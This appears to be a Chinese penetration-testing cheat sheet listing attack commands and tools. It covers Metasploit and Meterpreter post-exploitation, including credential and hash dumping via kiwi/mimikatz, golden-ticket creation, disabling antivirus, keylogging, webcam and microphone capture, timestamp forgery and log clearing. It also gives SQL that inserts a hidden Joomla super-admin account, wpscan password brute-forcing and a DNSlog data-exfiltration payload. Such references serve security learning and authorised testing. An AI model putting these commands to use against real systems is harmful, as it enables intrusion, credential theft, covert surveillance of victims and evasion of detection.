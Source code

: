 综合框架
----------------------------------------

漏洞利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ metasploit
	- Terminal下msf常用命令简介
		+ 打开msf终端：``msfconsole``
		+ 将汇编指令转换成为对应的16进制机器码：``msf-nasm_shell``
		+ 设置全局变量
			::
			
				set proxies socks5:127.0.0.1:7222
				set ReverseAllowProxy true
	- msf终端下常用命令简介
		+ 显示命令的帮助信息：``help [db_connect]``
		+ 搜索含有关键字的模块：``search [module]``
		+ 选择模块：``use [module]``
		+ 显示模块支持的payload：``show payload``
		+ 显示模块参数：``show options``
		+ info详情：``info``
		+ 设置取消参数：``set/unset [opt]``
		+ 设置取消全局参数：``setg/unsetg [opt]``
		+ 返回上级状态：``back``
		+ 运行攻击模块：``exploit/run``
		+ 查看当前连接会话：``sessions``
+ meterpreter
	- 基本系统命令
		+ ``sessions -h`` ：查看帮助
		+ ``sessions -i <ID值>`` ：进入会话   -k  杀死会话
		+ ``background`` ：将当前会话放置后台
		+ ``info`` ：查看已有模块信息
		+ ``getuid`` ：查看获取的当前权限
		+ ``getsystem`` ：提权
		+ ``getpid`` ：获取当前进程的pid
		+ ``sysinfo`` ：查看目标机系统信息
		+ ``ps`` ：查看当前活跃进程    
		+ ``kill <PID值>`` ：杀死进程
		+ ``idletime`` ：查看目标机运行时间
		+ ``hashdump`` ：从SAM数据库导出密码的哈希
		+ ``reboot/shutdown`` ：重启/关机
		+ ``shell`` ：进入目标机cmd shell,windows环境下中文乱码的解决办法:chcp 65001
		+ 退出shell模式，返回到meterpreter：``Ctrl+Z``
		+ ``load kiwi`` ：加载wiki模块
			::
			
				creds_all：列举所有凭据
				creds_kerberos：列举所有kerberos凭据
				creds_msv：列举所有msv凭据
				creds_ssp：列举所有ssp凭据
				creds_tspkg：列举所有tspkg凭据
				creds_wdigest：列举所有wdigest凭据
				dcsync：通过DCSync检索用户帐户信息
				dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
				golden_ticket_create：创建黄金票据
				kerberos_ticket_list：列举kerberos票据
				kerberos_ticket_purge：清除kerberos票据
				kerberos_ticket_use：使用kerberos票据
				kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
				lsa_dump_sam：dump出lsa的SAM
				lsa_dump_secrets：dump出lsa的密文
				password_change：修改密码
				wifi_list：列出当前用户的wifi配置文件
				wifi_list_shared：列出共享wifi配置文件/编码
		+ ``run`` ：使用扩展库，输入run后按两下tab列出已有的脚本
			::
			
				run post/windows/manage/migrate                  #自动进程迁移    
				run post/windows/gather/checkvm                  #查看目标主机是否运行在虚拟机上   
				run post/linux/gather/checkvm                    # 是否虚拟机
				run post/windows/manage/killav                   #关闭杀毒软件    
				run post/windows/manage/enable_rdp               #开启远程桌面服务    
				run post/windows/manage/autoroute                #查看路由信息    
				run post/windows/gather/dumplinks                #获取最近的文件操作
				run post/windows/gather/enum_logged_on_users     #列举当前登录的用户    
				run post/windows/gather/enum_applications        #列举应用程序    
				run windows/gather/credentials/windows_autologin #抓取自动登录的用户名和密码    
				run windows/gather/smart_hashdump                #dump出所有用户的hash
		+ ``run killav`` ：关闭杀毒软件
		+ ``run scraper`` : 查看目标主机详细信息
	- execute执行文件
		+ ``execute`` : 参数  -f 可执行文件   # 执行可执行程序
		+ ``execute -H -i -f cmd.exe`` : 创建新进程cmd.exe，-H不可见，-i交互
	- 目录/文件操作
		+ ``pwd/getwd`` : 目标机器上当前目录(windows)
		+ ``cd`` : 目标机器上切换目录
		+ ``ls`` : 目标机器上显示
		+ ``dir`` : 目标机器上查看
		+ ``mkdir dir1 dir2`` : 
		+ ``mv oldfile newfile`` : 
		+ ``rmdir dir1`` : 
		+ ``getlwd / lpwd`` : 查看攻击机当前目录(Linux)
		+ ``lls`` : 在攻击机显示
		+ ``lcd`` : 在攻击机上切换目录
		+ ``cat C:\\Users\\zq\\Desktop\\123.txt`` : 目标机器上读取内容
		+ ``edit C:\\Users\\zq\\Desktop\\123.txt`` : 篡改目标机器上的文件
		+ ``search -f *.jsp -d e:\`` : 搜索E盘中所有以.jsp为后缀的文件
		+ ``upload /test.x C:\\Users\\zq\\Desktop`` : 将文件传到目标机的桌面
		+ ``download C:\\123.txt /root`` : 将目标机文件下载到/root目录下
	- 时间戳伪造
		+ ``timestomp C:// -h`` : 查看帮助
		+ ``timestomp -v C://2.txt`` : 查看时间戳
		+ ``timestomp C://2.txt -f C://1.txt`` : 将1.txt的时间戳复制给2.txt 
	- 进程
		+ ``ps`` : 查看目标主机活跃进程信息
		+ ``getpid`` : 查看当前Meterpreter Shell的进程
		+ ``migrate 1732`` : 将当前Meterpreter Shell的进程迁移到PID为1732的进程上，这样不容器被发现
		+ ``kill <pid值>`` : 杀死进程
	- 网络
		+ ``run get_local_subnets`` : 获取目标主机上的子网状态
		+ ``db_nmap`` : 扫描内网存活主机
		+ ``arp`` 显示目标机器arp缓存
		+ ``getproxy`` 显示目标机器的代理
		+ ``ifconfig``
		+ ``netstat -ano``
		+ ``route``
		+ ``portfwd`` 端口重定向
		+ ``portfwd add -l 3389 -p 3389 -r 172.16.0.100`` 将目标机的3389端口转发到本地3389端口
		+ 然后直接在本地使用命令远程登录：``rdesktop 127.0.0.1``
	- 添加路由
		+ run autoroute –h    # 查看帮助
		+ run autoroute -s 192.168.159.0/24  # 添加到目标环境网络
		+ run autoroute –p  # 查看添加的路由
		+ 扫描
			- ``run post/windows/gather/arp_scanner RHOSTS=192.168.159.0/24``
			- ``run auxiliary/scanner/portscan/tcp RHOSTS=192.168.159.144 PORTS=3389`` 
	- uictl开关键盘/鼠标
		+ ``uictl [enable/disable] [keyboard/mouse/all]`` 开启或禁止键盘/鼠标
		+ ``uictl disable mouse`` 禁用鼠标
		+ ``uictl disable keyboard`` 禁用键盘
	- 用户接口命令（键盘嗅探，鼠标、屏幕、音频、摄像头）
		+ ``keyscan_start`` : 开启键盘记录功能
		+ ``keyscan_dump`` : 显示捕捉到的键盘记录信息
		+ ``keyscan_stop`` : 停止键盘记录功能
		+ ``mouse`` : 鼠标命令
		+ ``screenshare`` : 屏幕监控
		+ ``screenshot`` : 截图
		+ ``record_mic`` : 音频
		+ ``play *.wav`` : 播放音频
		+ ``webcam_list`` : 查看目标主机的摄像头
		+ ``webcam_snap`` : 目标主机摄像头拍照
		+ ``webcam_stream`` : 目标主机通过摄像头开视频
		+ ``webcam_chat -h`` : 开始与目标进行视频对话。
		+ ``run vnc`` : 运行vnc远程查看屏幕
	- clearav清除日志
		+ clearev

综合利用工具
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ LiqunKit
	- 项目：``https://github.com/Liqunkit/LiqunKit_``
	- 漏洞辅助工具箱，包含致远OA，泛微OA，万户OA，蓝凌OA，用友OA，通达OA，weblogic，struts2，thinkphp，shiro，数据库综合。
+ Railgun
	- 项目地址：``https://github.com/lz520520/railgun``
	- Railgun为一款GUI界面的渗透工具，将部分人工经验转换为自动化，集成了渗透过程中常用到的一些功能，目前集成了端口扫描、端口爆破、web指纹扫描、漏洞扫描、漏洞利用以及编码转换功能，后续会持续更新。

特定CMS漏洞利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ Joomscan
	- 介绍
		+ Joomla security scanner可以检测Joomla整站程序搭建的网站是否存在文件包含、sql注入、命令执行等漏洞。
	- 使用方法
		+ 默认检测：``joomscan -u www.example.com``
		+ 组件检测：``joomscan -u www.example.com –ec``
		+ 设置cookie：``joomscan -u www.example.com --cookie "test=demo;"``
		+ 随机UA：``joomscan -u www.example.com -r``
		+ 设置代理：``joomscan -u www.example.com --proxy http://127.0.0.1:8080``
	- 数据库权限改管理员密码
		::
		
			以下两条命令成功创建joomla后台用户admin2/secret的超级管理员
			INSERT INTO `am2zu_users` (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`) VALUES ('Administrator2', 'admin2','d2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());
			INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`) VALUES (LAST_INSERT_ID(),'8');
+ wpscan
	- 插件漏洞:``wpscan --url https://www.xxxxx.wiki/ -e vp`` 
	- 主题漏洞:``wpscan --url https://www.xxxxxx.wiki -e vt`` 
	- 枚举用户:``wpscan --url https://www.xxxxxxx.wiki/ -e u`` 
	- 穷举密码:``wpscan --url https://www.xxxxxxx.wiki/ -U 'admin' -P /root/wordlist.txt``
+ Drupal enumeration & exploitation tool 
	- https://github.com/immunIT/drupwn
+ `dedecmscan <https://github.com/lengjibo/dedecmscan>`_ 织梦全版本漏洞扫描
+ thinkphp
	- https://github.com/Lucifer1993/TPscan
	- https://github.com/theLSA/tp5-getshell


带外数据监控
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ dnslog
	- 利用场景
		+ Sql-Blind
		+ RCE
		+ SSRF
		+ RFI（Remote File Inclusion）
	- 原理
		将dnslog平台中的特有字段payload带入目标发起dns请求，通过dns解析将请求后的关键信息组合成新的三级域名带出，在ns服务器的dns日志中显示出来。
	- 限制
		load_file函数在Linux下是无法用来做dnslog攻击的，因为Linux没有UNC路径(UNC路径就是类似\\softer这样的形式的网络路径)。
	- 示例
		+ ``select load_file('\\\\',version(),'.dnslog地址')``
+ ceye.io
	- http://ceye.io/profile中记录了个人的Identifier
	- 可以请求任何http文件
	- dns请求记录

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- goby
- Immunity Canvas
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- katoolin
	+ 自动安装所有Kali Linux工具
- `x-scan <https://x-scan.apponic.com/>`_
